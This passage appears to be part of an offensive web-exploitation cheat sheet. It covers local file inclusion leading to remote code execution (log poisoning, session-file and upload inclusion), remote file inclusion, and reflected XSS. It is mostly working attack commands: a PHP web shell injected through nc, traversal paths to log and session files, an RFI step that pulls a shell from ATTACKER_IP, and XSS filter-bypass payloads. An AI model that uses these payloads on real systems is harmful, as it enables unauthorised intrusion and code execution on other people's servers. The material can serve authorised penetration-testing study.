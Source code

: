 ### LFI to RCE

**Log Poisoning:**
```bash
# 1. Poison access log with PHP code
nc TARGET 80
GET /<?php system($_GET['cmd']); ?> HTTP/1.1

# 2. Include poisoned log via LFI
curl "http://TARGET/page.php?file=../../../../var/log/apache2/access.log&cmd=id"

# Common log locations
/var/log/apache2/access.log
/var/log/nginx/access.log
/var/log/httpd/access_log
```

**Session File Inclusion:**
```bash
# 1. Set session variable to PHP code
curl "http://TARGET/session.php" --cookie "PHPSESSID=malicious" --data "name=<?php system(\$_GET['cmd']); ?>"

# 2. Include session file
curl "http://TARGET/page.php?file=../../../../var/lib/php/sessions/sess_malicious&cmd=id"
```

**Combine with File Upload:**
```bash
# 1. Upload file with PHP code (even if filtered)
# File: image.jpg containing <?php system($_GET['cmd']); ?>

# 2. Include via LFI
curl "http://TARGET/page.php?file=../../../../uploads/image.jpg&cmd=id"
```

### RFI (If enabled)

```bash
# Host shell on your server
echo '<?php system($_GET["cmd"]); ?>' > shell.txt
python3 -m http.server 80

# Include remote file
curl "http://TARGET/page.php?file=http://ATTACKER_IP/shell.txt&cmd=id"
```

## Cross-Site Scripting (XSS)

### Reflected XSS

```bash
# Basic test
curl "http://TARGET/search?q=<script>alert(1)</script>"

# Bypass filters
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<body onload=alert(1)>
<iframe src="javascript:alert(1)">
```
